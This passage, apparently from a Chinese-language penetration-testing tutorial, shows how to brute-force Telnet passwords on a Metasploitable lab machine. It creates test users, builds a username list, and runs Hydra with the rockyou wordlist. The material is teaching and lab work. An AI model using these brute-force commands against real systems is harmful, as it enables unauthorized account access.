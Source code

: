 我们将尝试破解 Telnet 和 SSH 密码：

1.  让我们首先登录到 Metasploitable 机器，创建几个用户来进行测试：

```
cd 
sudo useradd johndoe -p ketchup -m 
sudo useradd janedoe -p mustard -m 
sudo useradd kiddoe -p monkey -m

```

1.  验证 Metasploitable 机器的 IP 地址——在我的案例中是 `192.168.56.104`。

# 使用用户名列表破解 Telnet 密码

在这个教程中，我们将尝试根据已知或潜在的用户名列表破解 Telnet 密码：

1.  通过点击图标在 Kali 中打开终端窗口。 ![](img/512520b2-9a1d-4779-8d1a-f2fe1843e6f2.png)

1.  我们将使用 Hydra 来通过单词列表和预定义的用户名集合进行密码破解。让我们来构建用户名列表：

```
cd 
touch usernames2 
echo 'kiddoe' >> usernames2 
echo 'janedoe' >> usernames2 
echo 'johndoe' >> usernames2

```

1.  现在，让我们使用我们的用户名列表和单词列表运行 Hydra。你会注意到这需要一些时间，但最终你会获得密码：

```
hydra -L ~/usernames2 -P /usr/share/wordlists/rockyou.txt telnet://192.168.56.104 
```

![](img/bd6894f5-4547-47f9-8aa6-ddd774bf1bce.png)Hydra 输出屏幕，Telnet 可能需要很长时间并且结果不可靠。然而，由于它在遗留网络中的普遍性，它仍然是一种很好的攻击方法。

